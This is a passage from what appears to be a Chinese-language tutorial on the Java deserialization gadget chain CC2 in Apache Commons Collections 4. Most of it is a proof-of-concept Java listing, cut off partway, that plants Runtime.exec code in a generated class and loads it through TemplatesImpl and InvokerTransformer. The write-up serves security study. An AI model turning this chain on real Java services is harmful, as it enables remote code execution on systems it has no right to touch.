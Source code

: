 此时已经可以成功执行命令了，接下来就是需要找到一个点调用了 newTransformer 这个方法。

利用链 1 可以执行到 transform 方法了，那么我们可以通过 InvokerTransformer#transform 的反射来调 TemplatesImpl#newtransformer，达到命令执行的目的。

完整POC：

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class cc2 {

    public static void main(String[] args) throws Exception {
        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");

        TransformingComparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); //设置父类为AbstractTranslet，避免报错
        // 写入.class 文件
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_class", null);//为了进入defineTransletClasses满足条件

        Object[] queue_array = new Object[]{templates,1};


        queue.add(1);
        queue.add(1);

```